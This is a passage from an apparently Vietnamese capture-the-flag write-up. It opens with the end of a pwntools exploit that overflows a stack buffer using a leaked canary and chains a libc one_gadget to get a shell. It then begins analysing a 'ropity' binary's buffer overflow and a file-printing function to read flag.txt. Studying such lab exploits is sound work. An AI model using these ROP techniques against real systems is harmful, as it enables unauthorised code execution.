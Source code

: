```python

#input()
p.sendlineafter(b'Enter book title: ', payload)

#pop_rdi = 0x0000000000023b6a

pop_r12 = 0x000000000002f709 + libc_address
one_gadget = 0xe3afe + libc_address
payload = flat(
    b'A'*104,
    canary,
    b'A'*8,
    pop_r12, 0,
    one_gadget
)
input()
p.sendlineafter(b'>', payload)

#input()

p.interactive()

```
# ropity
- Chương trình cho ta một file nhị phân 
- Kiểm tra biện pháp bảo vệ
```
[*] '/home/s4ngxg/imag/ropity/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
- dùng IDA để dịch ngược
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[8]; // [rsp+8h] [rbp-8h] BYREF
  return (unsigned int)fgets(s, 256, _bss_start);
}
``` 
- Chỉ là cho nhập vào 256 byte, thấy ngay lỗi `buffer overflow`
- Bên cạnh đó còn có hàm `printfile`
```
signed __int64 __fastcall printfile(const char *a1, __int64 a2, int a3)
{
  int v3; // esi
  size_t v4; // r10
  v3 = sys_open(a1, 0, a3);
  return sys_sendfile(1, v3, 0LL, v4);
}
```
- Hàm này dùng để mở một tệp và in ra màn hình 
- Nếu ta có thể thay đổi thanh ghi trước khi hàm `sys_open` thành địa chỉ chứa `flag.txt` thì ta có thể đọc flag
```
pwndbg> disass main
Dump of assembler code for function main:
   0x0000000000401136 <+0>:     endbr64
   0x000000000040113a <+4>:     push   rbp
   0x000000000040113b <+5>:     mov    rbp,rsp
   0x000000000040113e <+8>:     sub    rsp,0x10
```